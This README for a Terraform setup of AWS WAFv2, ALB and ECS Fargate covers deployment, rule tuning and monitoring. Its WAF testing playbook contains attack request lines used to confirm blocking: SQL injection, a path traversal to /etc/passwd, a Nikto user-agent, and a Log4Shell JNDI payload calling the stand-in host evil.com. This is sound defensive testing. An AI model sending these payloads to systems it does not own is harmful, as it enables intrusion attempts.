

# AWS WAFv2 & Application Load Balancer (ALB) with ECS Fargate
## Comprehensive Architecture, Security, Configuration, and Testing Guide

---

## 1. Executive Summary & Architecture

This repository provides an enterprise-ready infrastructure provisioned with **Terraform**, combining **AWS WAFv2 (Web Application Firewall)**, **Application Load Balancers (ALB)**, and **Amazon ECS on AWS Fargate**.

Incoming internet traffic is inspected at **Layer 7 (Application Layer)** by AWS WAF before reaching the Application Load Balancer. Legitimate requests are forwarded across private subnets to ECS container tasks, while malicious or anomalous requests are terminated immediately at the network edge with an HTTP 403 response.

### Traffic Flow Diagram



---

## 2. AWS WAFv2 Overview: How It Works

AWS WAF is a Layer 7 firewall that monitors HTTP and HTTPS requests forwarded to protected AWS resources. Unlike Security Groups (which only evaluate Layer 4 protocol, IP, and port), AWS WAF inspects the entire HTTP envelope:
* Request headers (User-Agent, Host, Cookies, custom headers)
* Query strings and parameters
* HTTP request body (JSON, form-encoded, XML)
* Request URI path
* HTTP request rate per source IP

### Core Concepts

| Component | Function | Configuration in this Repo |
| :--- | :--- | :--- |
| **Web ACL** | The root container containing ordered rules and default actions. | `aws_wafv2_web_acl.main` (Scope: `REGIONAL`) |
| **Scope** | Deployment target. For ALBs, API Gateways, and AppSync, this must be `REGIONAL`. (Use `CLOUDFRONT` only for CloudFront). | `scope = "REGIONAL"` |
| **Priority** | Execution order starting at `1`. Lower numbers evaluate first. First terminating rule match stops evaluation. | Priorities: `1`, `10`, `20`, `30`, `40` |
| **Default Action** | Action executed when no rules match. | `default_action { allow {} }` |
| **Association** | Attaches the Web ACL to the Load Balancer ARN. | `aws_wafv2_web_acl_association.alb_waf` |
| **Logging** | Full request stream capturing client IP, headers, and blocking rule. | `aws_wafv2_web_acl_logging_configuration.waf_logging` |

---

## 3. Active WAF Rules Reference

The following 5 security rules are actively enforced in `module/waf.tf`:

| Priority | Rule Name | Type | Key Threat Protections |
| :---: | :--- | :--- | :--- |
| **1** | `RateLimit500PerIP` | Custom Rate-Based | Layer-7 DDoS, brute force password attacks, scraping, and bot storms. Automatically blocks IPs exceeding the threshold in a 5-minute rolling window. |
| **10** | `AWSManagedRulesCommonRuleSet` | AWS Managed (CRS) | OWASP Top 10 vulnerabilities, Cross-Site Scripting (XSS), Local/Remote File Inclusion (LFI/RFI), Path Traversal (`../../etc/passwd`), missing/evasive User-Agents. |
| **20** | `AWSManagedRulesKnownBadInputsRuleSet` | AWS Managed | Known malicious input patterns, Log4Shell exploits (`${jndi:...}`), invalid host headers, exploit payloads targeting common libraries. |
| **30** | `AWSManagedRulesAmazonIpReputationList` | AWS Managed | Amazon Threat Intelligence feed blocking known malicious IPs, compromised bots, vulnerability scanners, malware hosts, and Tor exit nodes. |
| **40** | `AWSManagedRulesSQLiRuleSet` | AWS Managed | SQL Injection patterns in query parameters, request bodies, or headers (e.g. `' OR '1'='1`, `UNION SELECT`, `; DROP TABLE`). |

---

## 4. Repository Structure

```text
├── main.tf                    # Root module: VPC, ECS Cluster, and ECS services invocation
├── variables.tf               # Root input variable declarations
├── terraform.tfvars           # Environment-specific configuration values
├── outputs.tf                 # Root outputs (ALB DNS, WAF ARNs, Target Groups)
├── providers.tf               # AWS provider configuration
├── backend.tf                 # Optional S3 remote backend
│
└── module/                    # Reusable ECS Service + ALB + WAF module
    ├── alb_configuration.tf   # ALB, Target Group, HTTP Listener, Security Group
    ├── autoscaling.tf         # Target Tracking Autoscaling policies (CPU & Memory)
    ├── log_group.tf           # CloudWatch Log Group for ECS service
    ├── output.tf              # Module outputs passed back to root
    ├── providers.tf           # Provider requirements
    ├── security-groups.tf     # ECS task security group (allows ingress from ALB SG)
    ├── task-def.tf            # ECS Task Definition & IAM execution policies
    ├── task-service.tf        # ECS Fargate Service definition
    ├── variables.tf           # Module input variables
    └── waf.tf                 # AWS WAFv2 Web ACL, Rules, Association & Logging
```

---

## 5. Deployment Guide

### Prerequisites
1. **Terraform** &ge; 1.3 installed (`terraform -version`).
2. **AWS CLI** configured with appropriate permissions (`aws sts get-caller-identity`).

### Configuration
Verify your `terraform.tfvars`:
```hcl
aws_region   = "us-east-1"
env          = "dev"
cluster_name = "sample-waf-cluster"

services = {
  sample-service-1 = {
    internal                          = false
    ecs_desired_count                 = 1
    container_name                    = "sample-service-1"
    ecs_service_name                  = "sample-service-1"
    ecr_repo_uri                      = "public.ecr.aws/nginx/nginx:latest"
    container_port                    = 80
    allocate_cpus                     = 256
    allocate_memory                   = 512
    health_check_grace_period_seconds = 60
    max_capacity                      = 2
    min_capacity                      = 1
    target_memory_utilization         = 80
    target_cpu_utilization            = 80
    envs = [
      { "name" = "env", "value" = "dev" }
    ]
    secrets      = []
    host         = ""  # Empty string defaults to ALB HTTP listener forward
    listener_arn = ""
    tags = {
      application_name = "nginx-sample"
      Environment      = "dev"
    }
  }
}
```

### Execution Commands

```bash
# Initialize provider plugins and modules
terraform init

# Validate syntax and references
terraform validate

# Review proposed changes
terraform plan

# Apply infrastructure changes
terraform apply -auto-approve
```

---

## 6. Testing & Security Validation Playbook

Replace `<ALB_DNS>` with your actual output value (e.g. `sample-service-1-dev-alb-1993524471.us-east-1.elb.amazonaws.com`).

> [!IMPORTANT]
> **Browser Protocol Note**: Because the ALB is configured for HTTP (port 80), always type `http://<ALB_DNS>` in your browser. Typing without `http://` causes modern browsers like Chrome to default to `https://`, leading to an `ERR_CONNECTION_TIMED_OUT` error.

### Test 1: Normal Legitimate Traffic (ALLOW)
```powershell
curl.exe -i http://<ALB_DNS>/
```
* **Expected Status**: `HTTP/1.1 200 OK`
* **Response Server**: `Server: nginx/1.31.x`
* **Verification**: Clean traffic passes through WAF, ALB, and is served by the Nginx container.

---

### Test 2: SQL Injection Attack (BLOCK)
```powershell
curl.exe -i "http://<ALB_DNS>/?id=1'%20OR%20'1'='1"
```
* **Expected Status**: `HTTP/1.1 403 Forbidden`
* **Response Server**: `Server: awselb/2.0`
* **Triggered Rule**: `AWSManagedRulesSQLiRuleSet`

---

### Test 3: Path Traversal / LFI Attack (BLOCK)
```powershell
curl.exe -i "http://<ALB_DNS>/../../etc/passwd"
```
* **Expected Status**: `HTTP/1.1 403 Forbidden`
* **Response Server**: `Server: awselb/2.0`
* **Triggered Rule**: `AWSManagedRulesCommonRuleSet`

---

### Test 4: Suspicious Vulnerability Scanner User-Agent (BLOCK)
```powershell
curl.exe -i -A "Nikto" "http://<ALB_DNS>/"
```
* **Expected Status**: `HTTP/1.1 403 Forbidden`
* **Response Server**: `Server: awselb/2.0`
* **Triggered Rule**: `AWSManagedRulesCommonRuleSet`

---

### Test 5: Known Bad Exploit Payload (Log4Shell) (BLOCK)
```powershell
curl.exe -i "http://<ALB_DNS>/?test=%24%7Bjndi%3Aldap%3A%2F%2Fevil.com%7D"
```
* **Expected Status**: `HTTP/1.1 403 Forbidden`
* **Response Server**: `Server: awselb/2.0`
* **Triggered Rule**: `AWSManagedRulesKnownBadInputsRuleSet`

---

### Test 6: Rate Limiting Enforcement (BLOCK)
Simulate a rapid flood of requests:
```powershell
for ($i=1; $i -le 30; $i++) {
    $code = (curl.exe -s -o NUL -w "%{http_code}" "http://<ALB_DNS>/")
    Write-Host "Request $i: HTTP $code"
}
```
* **Expected Status**: Initial requests return `HTTP 200`. Once the threshold is exceeded, subsequent requests return `HTTP 403`.
* **Triggered Rule**: `RateLimit500PerIP`

---

## 7. How to Modify Rules & Configurations

All rule updates are configured in `module/waf.tf` and apply **in-place without downtime**.

### 1. Adjusting Rate Limiting Threshold
To change the allowed request volume per IP:
```hcl
statement {
  rate_based_statement {
    limit              = 1000  # Adjust threshold (e.g. from 10 to 1000)
    aggregate_key_type = "IP"
  }
}
```

### 2. Switching Rules Between `COUNT` and `BLOCK` Mode
To test new rules without blocking legitimate traffic:
```hcl
rule {
  name     = "AWSManagedRulesCommonRuleSet"
  priority = 10

  override_action {
    count {}  # Was none {} (BLOCK). Now logs to CloudWatch without blocking.
  }
  ...
}
```

### 3. Resolving False Positives (Excluding Sub-Rules)
If a legitimate payload (such as large file uploads or JSON bodies) gets blocked by a managed group, override just that specific sub-rule:
```hcl
statement {
  managed_rule_group_statement {
    name        = "AWSManagedRulesCommonRuleSet"
    vendor_name = "AWS"

    rule_action_override {
      name = "SizeRestrictions_BODY"
      action_to_use {
        count {}  # Evaluates and logs this sub-rule without blocking
      }
    }
  }
}
```

### 4. Adding an IP Whitelist
To ensure trusted IPs (e.g. office VPNs, monitoring tools) bypass all blocking rules:
1. Define an IP Set:
   ```hcl
   resource "aws_wafv2_ip_set" "trusted_ips" {
     name               = "trusted-office-ips"
     scope              = "REGIONAL"
     ip_address_version = "IPV4"
     addresses          = ["203.0.113.10/32", "198.51.100.0/24"]
   }
   ```
2. Add a priority 0 rule:
   ```hcl
   rule {
     name     = "AllowTrustedIPs"
     priority = 0

     action {
       allow {}
     }

     statement {
       ip_set_reference_statement {
         arn = aws_wafv2_ip_set.trusted_ips.arn
       }
     }

     visibility_config {
       cloudwatch_metrics_enabled = true
       metric_name                = "AllowTrustedIPsMetric"
       sampled_requests_enabled   = true
     }
   }
   ```

### 5. Adding Geo-Restriction (Block Countries)
To block traffic originating from specific geographic regions:
```hcl
rule {
  name     = "BlockRestrictedCountries"
  priority = 5

  action {
    block {}
  }

  statement {
    geo_match_statement {
      country_codes = ["RU", "CN", "KP"]  # ISO 3166-1 alpha-2 country codes
    }
  }

  visibility_config {
    cloudwatch_metrics_enabled = true
    metric_name                = "BlockRestrictedCountriesMetric"
    sampled_requests_enabled   = true
  }
}
```

---

## 8. Monitoring & Auditing

### Viewing Sampled Requests in AWS Console
1. Navigate to **AWS Console** &rarr; **WAF & Shield** &rarr; **Web ACLs**.
2. Set Region to **US East (N. Virginia)** `us-east-1`.
3. Click your Web ACL: `sample-service-1-dev-waf`.
4. Open the **Sampled requests** tab:
   * View source IP, timestamp, URI, HTTP method.
   * View the exact **Terminating Rule** responsible for blocking each request.

### CloudWatch Logs
WAF logs are streamed to the dedicated CloudWatch Log Group:
```text
aws-waf-logs-sample-service-1-dev
```
Run CloudWatch Insights queries to inspect attack vectors:
```sql
fields @timestamp, httpRequest.clientIp, httpRequest.uri, terminatingRuleId, action
| filter action = "BLOCK"
| stats count(*) by terminatingRuleId
| sort count(*) desc
```

---

## 9. Teardown / Destroy

When testing is complete, destroy all provisioned resources:

```bash
terraform destroy -auto-approve
```
